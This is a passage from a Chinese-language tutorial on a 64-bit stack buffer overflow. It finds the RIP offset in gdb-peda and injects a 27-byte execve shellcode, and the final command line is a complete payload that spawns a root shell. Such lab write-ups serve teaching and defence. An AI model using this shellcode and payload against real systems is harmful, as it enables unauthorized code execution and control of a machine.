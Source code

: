 
程序崩溃了,但是并没有覆盖掉RIP,这是因为最大的地址位`0x00007FFFFFFFFFFF`,我们把RIP覆盖成了非法的地址`0x4141414141414141`这造成了进程的异常,为了能够控制RIP,我们需要把它的值变为`0x0000414141414141`,现在我们的目标就是找到这个offset,我们可以使用cyclic来完成.

找到了offset

```
gdb-peda$ r `python -c 'print "A"*270'`
```

结果

```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000414141414141 in ?? ()
```

找到写入shellcode的地址

```
gdb-peda$ p &buf
$2 = (char (*)[256]) 0x7fffffffe2f0
gdb-peda$ x/32gx 0x7fffffffe2f0
0x7fffffffe2f0:	0x4141414141414141	0x4141414141414141
0x7fffffffe300:	0x4141414141414141	0x4141414141414141
0x7fffffffe310:	0x4141414141414141	0x4141414141414141
```

27字节的64位shellcode如下`\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05`

最终结果

```
gdb-peda$ r `python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" +"A"* 237 + "\xf0\xe2\xff\xff\xff\x7f"'`
...
...
Input:1?谎𽃭𺀿𸳮H髹ST_𼁒WT^?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA疴
process 21665 is executing new program: /usr/bin/bash
Xshellsh-4.2# who   
[New process 21674]
process 21674 is executing new program: /usr/bin/who
Missing separate debuginfos, use: debuginfo-install bash-4.2.46-33.el7.x86_64
root     pts/0        Nov 19 13:31 (61.172.240.228)
```

